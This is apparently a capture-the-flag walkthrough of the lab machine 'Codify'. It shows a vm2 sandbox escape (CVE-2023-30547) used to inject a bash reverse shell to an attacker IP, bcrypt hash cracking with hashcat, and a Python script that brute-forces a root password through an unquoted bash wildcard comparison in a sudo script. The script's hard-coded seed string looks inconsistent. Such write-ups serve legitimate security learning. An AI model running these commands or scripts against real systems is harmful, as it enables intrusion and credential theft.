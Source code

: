 ```yaml
---
layout: post
title:  "Codify Machine (Easy)"
date:   2024-04-05 17:04:54 +0100
categories: ["OS Command Injection", "Brute Force"]
---
```


## Information Gathering

First run a nmap scan to show the services available on the target.

![Nmap scan](/assets/machines/codify.htb/images/1_nmap_scan.png)

*Note: En el output aparece el puerto 3000 abierto, era otra persona que tenía acceso a la máquina y abrió ese puerto.*

The web application use the vm2 software to allow users to execute Nodejs code in the server.

![HTTP Web service](/assets/machines/codify.htb/images/2_http_web_service.png)

The version of vm2 can be found at link of the About us page.

![HTTP Web service](/assets/machines/codify.htb/images/3_http_vm2_version.png)

## Vulnerability Assesment

A quick search on Google reveals that there is a vulnerability for version vm2 3.9.16: [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547)

In the following link, we have a [Proof of Concept (PoC)](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

## Execute reverse shell

We will exploit the vulnerability by injecting a command that will execute a reverse shell. The command to inject is as follows:

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.35/9000 0>&1"
```

![HTTP Web service](/assets/machines/codify.htb/images/4_os_command_injection.png)

Before clicking on `Run`, make sure you have netcat listening.

![HTTP Web service](/assets/machines/codify.htb/images/5_nc_revshell.png)

¡We are in! The next step is to gather information again.

## Brute Forcing Password

We find two users, `svc` and `joshua`. Since we are inside a CTF, it looks like we first need to compromise the `joshua` user by performing privilege escalation, and then go for the root user.

![HTTP Web service](/assets/machines/codify.htb/images/7_users.png)

Searching through the files on the website, we came across the file `tickets.db`, which contains the hashed password of the user joshua.

![HTTP Web service](/assets/machines/codify.htb/images/6_tickets_db.png)

If we look at the hash, it is Bcrypt. Fortunately, we have our trusted tool Hashcat.

```bash
hashcat -m 3200 hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

The argument `-m 3200` indicates that we will use the Bcrypt hash.

![HTTP Web service](/assets/machines/codify.htb/images/8_hashcat.png)

The brute force attack was successful, and we obtained the credentials `joshua:spongebob1`. Now, let's cross our fingers that he has reused the password for his account on the server.

![HTTP Web service](/assets/machines/codify.htb/images/9_su_joshua.png)

Thanks God! We got Joshua's flag, and now let's go for root.

## Privilege Escalation

The command `sudo -l` shows us the commands/scripts that we can execute as root.

![HTTP Web service](/assets/machines/codify.htb/images/10_sudo_l.png)

We come across the script `/opt/scripts/mysql-backup.sh`, its contents are as follows:

```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

This script basically performs a backup and stores it in `/var/backups/mysql`. However, to execute the script, we are asked for the root password in the MySQL database. If we enter the wrong password, the rest of the script will not execute.

Fortunately, the following conditional has a vulnerability that we can exploit:

```bash
if [[ $DB_PASS == $USER_PASS ]]
```

Our input has not been sanitized, so we can use the wildcard `*` to brute force the root password. By introducing the next inputs `a*`, `b*`, `c*`, `d*`, `e*`, `f*`, ..., `kl*`.

After a few minutes, I created this Python script to brute force the root password using the previous methodology. Please note that this script does not use symbols like `$,.`, as they could provoke script errors.

```python
import os
import time


# This python script brute force the password by using wildcard * in the password
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
pass_arr = 'kljh12k3jhaskjh12kjh'.split()
i = 0
while True:
    pass_str = ''.join(pass_arr)
    result = os.system(f"echo {pass_str}* | sudo /opt/scripts/mysql-backup.sh 1>/dev/null 2>/dev/null")
    time.sleep(0.5)

    # If the appended character was not found, replace it with the next character
    if result != 0:
        print(f"Character not found: {pass_str}*")
        i += 1
        # If we have tried all characters, password was found
        if i >= len(chars):
            pass_arr.pop()
            print(f"Password found: {''.join(pass_arr)}")
            break
        # Otherwise, replace the last character with the next one
        pass_arr[len(pass_arr) - 1] = chars[i]
        continue

    # If a new character was found, add it to the password
    print(f"Found character: {pass_str}*")
    i = 0
    pass_arr.append(chars[i])
    continue
```

The above script will perform a brute force attack to obtain the root password.

![HTTP Web service](/assets/machines/codify.htb/images/11_py_bruteforce_start.png)

Finally, after a few minutes, we have obtained the root password.

![HTTP Web service](/assets/machines/codify.htb/images/12_py_bruteforce_end.png)

Use it wisely to obtain the root flag.

¡Happy Hacking!
